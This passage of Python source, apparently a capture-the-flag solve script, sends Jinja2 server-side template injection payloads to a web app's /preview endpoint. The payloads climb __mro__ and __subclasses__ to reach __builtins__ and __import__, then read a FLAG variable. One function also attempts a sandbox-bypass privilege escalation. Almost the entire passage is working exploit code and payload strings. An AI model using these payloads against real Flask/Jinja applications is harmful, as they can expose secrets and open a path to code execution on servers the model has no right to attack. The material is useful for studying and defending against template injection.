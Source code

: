 ```python
            print(f"[+] Found usable class '{cls}' at index {i}")
            return i
    print("[-] No suitable subclass found, using default index 35")
    return 35

def extract_flag_directly(index):
    url = f"{TARGET}/preview"
    payload = {
        "template": f"{{ ''.__class__.__mro__[1].__subclasses__()[{index}].__init__.__globals__['__builtins__']['__import__']('__main__').FLAG }}"
    }
    response = session.post(url, json=payload)
    if response.status_code == 200:
        preview = response.json().get("preview", "")
        if "CSP{" in preview:
            print(f"[+] Flag found directly: {preview}")
            return preview
        else:
            print(f"[-] Direct FLAG extraction failed: {preview}")
    else:
        print(f"[-] Direct extraction error: {response.text}")
    return None

def extract_flag_sandbox():
    url = f"{TARGET}/preview"
    payloads = [
        {"template": "{{ request.application.__self__.__dict__.get('FLAG') }}"},
        {"template": "{{ config.__class__.__init__.__globals__['__builtins__']['__import__']('__main__').FLAG }}"},
        {"template": "{{ g.__init__.__globals__['__builtins__']['__import__']('__main__').FLAG }}"}
    ]
    for payload in payloads:
        response = session.post(url, json=payload)
        if response.status_code == 200:
            preview = response.json().get("preview", "")
            if "CSP{" in preview:
                print(f"[+] Flag found via sandbox bypass with {payload['template']}: {preview}")
                return preview
            else:
                print(f"[-] Sandbox bypass attempt failed: {payload['template']} -> {preview}")
        else:
            print(f"[-] Sandbox bypass error for {payload['template']}: {response.text}")
    return None

def escalate_privileges_sandbox():
    url = f"{TARGET}/preview"
    payload = {
        "template": "{{ request.application.__self__.users['hacker']['role'] }}"
    }
    response = session.post(url, json=payload)
    if response.status_code == 200 and "admin" in response.json().get("preview", ""):
        print("[+] Privilege escalation via sandbox bypass attempted")
        return True
    print(f"[-] Sandbox escalation failed: {response.text}")
    return False

def get_flag_endpoint():
    url = f"{TARGET}/flag"
    response = session.get(url)
    if response.status_code == 200:
        flag = response.json().get("flag", "")
        print(f"[+] Flag retrieved from endpoint: {flag}")
        return flag
```